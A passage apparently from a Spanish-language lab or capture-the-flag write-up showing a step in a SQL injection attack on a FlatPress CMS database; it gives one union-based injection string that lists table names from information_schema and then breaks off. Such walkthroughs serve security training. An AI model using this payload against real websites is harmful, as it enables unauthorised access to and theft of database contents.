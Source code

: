 <img src="/assets/images/THL-writeup-base/Captura10.png">
</p>

Muy bien, ahí podemos ver la BD del **CMS FlatPress**.

Obtengamos sus tablas con la siguiente inyección:
```bash
' union select table_name,2,3,4,5 from information_schema.tables where table_schem='FlatPress'-- -
```

Observa el resultado:

<p align="center">